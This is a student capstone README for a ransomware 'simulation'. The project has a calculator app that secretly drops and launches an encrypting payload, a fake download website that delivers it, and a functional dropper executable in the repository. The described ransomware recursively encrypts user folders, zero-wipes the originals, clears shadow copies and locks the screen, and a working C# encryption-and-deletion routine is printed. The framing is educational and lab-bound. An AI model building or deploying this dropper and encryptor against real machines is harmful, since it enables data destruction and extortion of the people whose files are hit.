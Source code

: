 # Ransomware Simulation with Deployment Methods and Mitigation Strategies

**Author:** Aimery Barrault
**Course:** CSCI 460 – Capstone

---

## 🚀 Project Overview

This repository contains a controlled, educational ransomware simulation.

> **Warning:** Do **not** deploy on production systems or without explicit authorization.

* **CalculatorApp.exe**
  A benign “calculator” UI that embeds, drops, and launches the real payload.
* **capstone-site/**
  A Next.js “fake download” website used to deliver the payload.
* **payload.txt** & **base64script.py**
  Utilities to embed and extract the encrypted dropper.

---

## ⚙️ Fake-Download Site Setup

1. **Change into the site directory**

   ```bash
   cd capstone-site
   ```

2. **Install dependencies**

   ```bash
   npm install
   # or
   yarn install
   ```

3. **Add your payload**
   Copy into:

   ```
   capstone-site/public/Downloads
   ```

   > **Note:** The functional dropper executable can also be found directly at `capstone-site/public/Downloads/CalculatorApp.exe` for convenience.

4. **Run in development mode**

   ```bash
   npm run dev
   # or
   yarn dev
   ```

   Then open [http://localhost:3000](http://localhost:3000) in your browser.

---

## 🖥️ CalculatorApp (Dropper UI)

**`MainWindow_CalculatorApp.cs`** — A WPF application that:

1. Displays a standard calculator interface.
2. On trigger (e.g. Backspace), reads a Base64-encoded string.
3. Decodes and writes `CalculatorManager.exe` to `%USERPROFILE%\Documents\`.
4. Launches `CalculatorManager.exe` and exits.

---

## 🔒 Ransomware Simulator

**`MainWindow_Manager.cs`** — A WPF application that performs:

1. **File Encryption**

   * Recursively encrypts files under Desktop, Documents, Pictures, Downloads, and Public Documents.
   * Uses AES-128 CBC with a fresh IV per file, prepended to the ciphertext.
2. **Secure Deletion**

   * Overwrites each original file with zeros, then deletes it.
3. **Countdown Timer**

   * Displays a 24-hour full-screen, top-most UI lockout.
4. **Password-Protected Decryption**

   * Verifies via PBKDF2(SHA-256), allowing up to three attempts.
5. **Self-Destruct**

   * Clears shadow copies, zero-wipes key and flag files, removes the Run-key, then exits.

<details>
<summary>Encryption code excerpt</summary>

```csharp
private void SafeEncryptDirectory(string dir, byte[] aesKey, string self)
{
    string[] files;
    try { files = Directory.GetFiles(dir); }
    catch { return; }

    foreach (var f in files)
    {
        if (f.EndsWith(".aes") || f.Equals(self)) continue;
        try
        {
            using var fin  = new FileStream(f, FileMode.Open, FileAccess.Read);
            using var fout = new FileStream(f + ".aes", FileMode.Create, FileAccess.Write);
            using var aes  = Aes.Create();
            aes.Key     = aesKey;
            aes.GenerateIV();
            aes.Mode    = CipherMode.CBC;
            aes.Padding = PaddingMode.PKCS7;

            // write IV prefix
            fout.Write(aes.IV, 0, aes.IV.Length);
            using var cs = new CryptoStream(fout, aes.CreateEncryptor(), CryptoStreamMode.Write);
            fin.CopyTo(cs);
        }
        catch (Exception ex)
        {
            File.AppendAllText("error.log", $"ENCRYPT {f} → {ex.Message}\n");
        }
        SecureDelete(f);
    }

    // recurse into subdirectories
    string[] subs;
    try { subs = Directory.GetDirectories(dir); }
    catch { return; }
    foreach (var sub in subs)
        SafeEncryptDirectory(sub, aesKey, self);
}
```

</details>

---

## ✅ Windows VM Execution

1. Copy `CalculatorApp.exe`, `CalculatorManager.exe`, and supporting scripts to a Windows 10 VM.
2. Run:

   ```powershell
   .\CalculatorApp.exe
   ```
3. Observe `.aes` files appearing in Desktop, Documents, etc.
4. Enter the correct password to decrypt and restore files.

---

## ⚖️ Legal Disclaimer

This software is provided **as-is** for **educational purposes only**. Misuse without explicit authorization is prohibited. By using this software, you agree that:

1. You are solely responsible for any damage.
2. The author and institution assume no liability.
3. Run only in isolated, authorized test environments.

---

## 📜 License

This project is released under the MIT License. See [LICENSE.md](LICENSE.md) for full terms.
